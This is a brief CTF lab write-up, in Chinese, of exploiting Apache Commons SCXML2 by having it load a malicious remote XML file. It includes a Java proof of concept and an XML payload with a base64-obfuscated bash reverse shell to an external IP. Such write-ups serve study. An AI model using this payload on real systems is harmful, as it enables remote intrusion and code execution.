 # [HDCTF 2023]BabyJxVx 复现

## 知识点

>   Apache SCXML2 RCE	可以通过加载恶意xml文件实现RCE

>   主要加载恶意xml方式：`SCXMLReader.read()`方法

```java

import org.apache.commons.scxml2.SCXMLExecutor;
import org.apache.commons.scxml2.io.SCXMLReader;
import org.apache.commons.scxml2.model.ModelException;
import org.apache.commons.scxml2.model.SCXML;

import javax.xml.stream.XMLStreamException;
import java.io.IOException;

public class POC {
    public static void main(String[] args) throws ModelException, XMLStreamException, IOException {

        // 创建 scxml 实例
        SCXMLExecutor executor = new SCXMLExecutor();
        // 将 SCXML URL 解析为 SCXML 模型
        SCXML scxml = SCXMLReader.read("http://127.0.0.1:8000/1.xml");

        // 设置状态机（scxml实例）执行
        executor.setStateMachine(scxml);
        executor.go();

    }
}
```



**playload：**

```xml
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="run">
    <final id="run">
        <onexit>
            <assign location="flag" expr="''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTIuMTI0LjUyLjIwMC8yMDAwMCAwPiYx}|{base64,-d}|{bash,-i}')"/>
        </onexit>
    </final>
</scxml>
```

>   将上面的文件放在服务器上，并设置对外可访问

>   原题访问：`http://node4.anna.nssctf.cn:28045/Flag?filename=http://服务器地址:7777/poc.xml`
>
>   触发shell，然后获取flag

```nginx
root@4d0d39411c944bf6:/# cat /flag_*
cat /flag_*
NSSCTF{51e9c540-eb7d-4349-8ee0-c83c995cba99}
```

